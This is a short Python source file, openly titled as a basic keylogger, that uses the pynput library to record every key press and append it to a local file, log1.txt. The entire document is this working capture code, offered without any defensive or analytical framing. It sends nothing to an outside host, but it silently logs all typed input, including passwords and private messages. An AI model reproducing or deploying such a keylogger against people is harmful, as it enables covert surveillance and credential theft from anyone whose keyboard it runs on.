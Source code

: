# Keylogger
#Basic key logger built with Python

from pynput.keyboard import Listener

def key_typed(key):
    alpha= str(key)
    alpha = alpha.replace("'","")

    if alpha== 'Key.space':
        alpha =' '

    with open('log1.txt','a') as a:
        a.write(alpha)

with Listener(on_press=key_typed) as s:
    s.join()
